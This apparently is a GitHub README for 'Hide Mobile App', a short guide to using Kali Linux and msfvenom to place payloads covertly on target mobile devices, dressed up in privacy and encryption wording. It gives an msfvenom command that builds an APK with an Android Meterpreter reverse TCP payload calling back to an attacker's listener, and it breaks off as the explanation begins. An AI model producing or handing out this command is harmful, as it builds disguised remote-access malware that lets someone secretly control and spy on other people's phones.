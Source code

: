 # Hide-Mobile-App
"Hide Mobile App" maximizes Kali Linux and msfvenom capabilities to deploy custom payloads covertly onto target mobile devices. Seamlessly integrated into the Kali environment, it ensures the utmost privacy by encrypting sensitive data. Effortlessly secure your information with "Hide Mobile App" on Kali Linux.

## Table of Content

1. [Generate Apk File](#generate-apk-file)

## Generate Apk File
`msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9999 R > ./mobileApp.apk`
This command utilizes `msfvenom`, a Metasploit payload generator, to create a custom Android application (`.apk` file) embedded with a Meterpreter reverse TCP payload.

Breaking down the command:



